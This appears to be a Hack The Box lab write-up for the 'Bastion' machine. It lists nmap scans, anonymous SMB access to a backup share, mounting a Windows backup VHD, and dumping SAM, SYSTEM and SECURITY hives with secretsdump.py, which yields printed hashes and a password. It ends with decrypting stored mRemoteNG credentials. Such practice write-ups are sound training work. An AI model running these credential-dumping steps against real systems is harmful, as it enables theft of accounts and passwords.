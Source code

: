 # Bastion

<pre>nmap -p- T5 10.10.10.134

PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown</pre>

<pre>PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)

135/tcp   open  msrpc       Microsoft Windows RPC

139/tcp   open  netbios-ssn Microsoft Windows netbios-ssn

445/tcp   open  microsof0  Windows Server 2016 Standard 14393 microsoft-ds

5985/tcp  open  http        Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found

47001/tcp open  http        Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -39m39s, deviation: 1h09m15s, median: 19s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-05-20T22:10:17+02:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-05-20T20:10:19
|_  start_date: 2024-05-20T20:07:37</pre>

<pre>smbclient -L 10.10.10.134 -N                 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC</pre>

<pre>smbclient \\\\10.10.10.134\\Admin$  
Password for [WORKGROUP\kali]:
tree connect failed: NT_STATUS_ACCESS_DENIED</pre>

<pre>smbclient \\\\10.10.10.134\\Backups\\
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Apr 16 11:02:11 2019
  ..                                  D        0  Tue Apr 16 11:02:11 2019
  note.txt                           AR      116  Tue Apr 16 11:10:09 2019
  SDT65CB.tmp                         A        0  Fri Feb 22 12:43:08 2019
  WindowsImageBackup                 Dn        0  Fri Feb 22 12:44:02 2019</pre>

- Download WindowsImageBackup

<pre>smb: \>get WindowsImageBackup</pre>

<pre>  9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd     An 37761024  Fri Feb 22 12:44:03 2019
  9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd     An 5418299392  Fri Feb 22 12:45:32 2019
  BackupSpecs.xml                    An     1186  Fri Feb 22 12:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_AdditionalFilesc3b9f3c7-5e52-4d5e-8b20-19adc95a34c7.xml     An     1078  Fri Feb 22 12:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Components.xml     An     8930  Fri Feb 22 12:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_RegistryExcludes.xml     An     6542  Fri Feb 22 12:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer4dc3bdd4-ab48-4d07-adb0-3bee2926fd7f.xml     An     2894  Fri Feb 22 12:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer542da469-d3e1-473c-9f4f-7847f01fc64f.xml     An     1488  Fri Feb 22 12:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writera6ad56c2-b509-4e6c-bb19-49d8f43532f0.xml     An     1484  Fri Feb 22 12:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerafbab4a2-367d-4d15-a586-71dbb18f8485.xml     An     3844  Fri Feb 22 12:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerbe000cbe-11fe-4426-9c58-531aa6355fc4.xml     An     3988  Fri Feb 22 12:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writercd3f2362-8bef-46c7-9181-d62844cdc0b2.xml     An     7110  Fri Feb 22 12:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writere8132975-6f93-4464-a53e-1050253ae220.xml     An  2374620  Fri Feb 22 12:45:32 2019</pre>

[Mounting VHD file on Kali Linux through remote share](https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25)

<pre>sudo mount -t cifs -o 'rw,username=guest' //10.10.10.134/Backups backups</pre>

<pre>guestmount -a '/home/kali/HacktheBox/Bastion/backups/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd' -m /dev/sda1 --ro /home/kali/HacktheBox/Bastion/mountbackup</pre>

[text](<Bastion Writeup.md>)

- Browse to the following `\Windows\System32\config\`
- Copy SAM + SYSTEM + SECURITY files

<pre>secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::

[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DefaultPassword 
(Unknown User):bureaulampje

[*] DPAPI_SYSTEM 
dpapi_machinekey:0x32764bdcb45f472159af59f1dc287fd1920016a6
dpapi_userkey:0xd2e02883757da99914e3138496705b223e9d03dd
[*] Cleaning up... </pre>

- SSH into machine with username and password

## Privilege Escalation
- mRemoteNG
- Remote Connection Manager
- Stores credentials
- Changelog.txt shows the version number of mRemoteNG

https://github.com/haseebT/mRemoteNG-Decrypt

 <pre>python mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA
 
Password: ********</pre>